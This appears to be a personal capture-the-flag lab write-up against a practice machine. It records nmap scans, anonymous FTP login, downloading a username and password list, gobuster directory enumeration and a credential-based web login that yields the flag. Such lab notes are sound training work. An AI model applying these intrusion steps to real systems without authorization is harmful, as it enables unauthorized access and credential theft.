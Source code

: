 ----
### Initial IPs

Attacker = 10.10.14.136
Victim = 10.129.35.6

----
### Initial Scan

- Ran the initial scan and found that ftp and webserver are running 
```shell
nmap -sV 10.129.35.6 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-23 15:36 EDT
Nmap scan report for 10.129.35.6
Host is up (0.018s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Unix

```
- Did a different type of scan to seen if we can get different info 
```shell
nmap -sC 10.129.35.6
Starting Nmap 7.93 ( https://nmap.org ) 
Nmap scan report for 10.129.35.6

21/tcp open  ftp
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.136
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd

80/tcp open  http
|_http-title: Smash - Bootstrap Business Template

```

- based on the results we found that we can connect ftp server using  **Anonymous FTP login allowed** which could mean that there is no password attached  
- Tried this method and it was sucessful
```shell
ftp anonymous@10.129.35.6

Connected to 10.129.35.6.
220 (vsFTPd 3.0.3)
230 Login successful.

Remote system type is UNIX.

```
- Found list of user names and paswords and downloaded them to the Attacker machine
```shell

ftp>ls -ll
229 Entering Extended Passive Mode (|||46557|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd

ftp> get allowed.userlist
ftp> get allowed.userlist.passwd

62 bytes received in 00:00 (3.41 KiB/s)

```
- Given that there is a web server decided to visit the url  in the browser. Clicked on the links and navigated around the site to find inputs. Couldn't find any. Also checked the source code to see if anything is hidden there was nothing  ![[Pasted image 20230323200518.png]]

- Then decided to see if there was any hidden dirs using go buster . found that there is a login and logout page
```shell
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.35.6
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2023/03/23 16:07:07 Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 276]
/.hta                 (Status: 403) [Size: 276]
/.hta.php             (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/.htaccess.php        (Status: 403) [Size: 276]
/.htpasswd.php        (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/assets               (Status: 301) [Size: 311] [--> http://10.129.35.6/assets/]                                                                          
/config.php           (Status: 200) [Size: 0]
/css                  (Status: 301) [Size: 308] [--> http://10.129.35.6/css/]
/dashboard            (Status: 301) [Size: 314] [--> http://10.129.35.6/dashboard/]                                                                       
/fonts                (Status: 301) [Size: 310] [--> http://10.129.35.6/fonts/]                                                                           
/index.html           (Status: 200) [Size: 58565]
/js                   (Status: 301) [Size: 307] [--> http://10.129.35.6/js/]
/login.php            (Status: 200) [Size: 1577]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/server-status        (Status: 403) [Size: 276]
Progress: 9228 / 9230 (99.98%)


```
![[Pasted image 20230323200909.png]]

- Tried to use some default passwords in then form then checked the password user list. Found the flag after testing each of the passwords in the password file
![[Pasted image 20230323201751.png]]
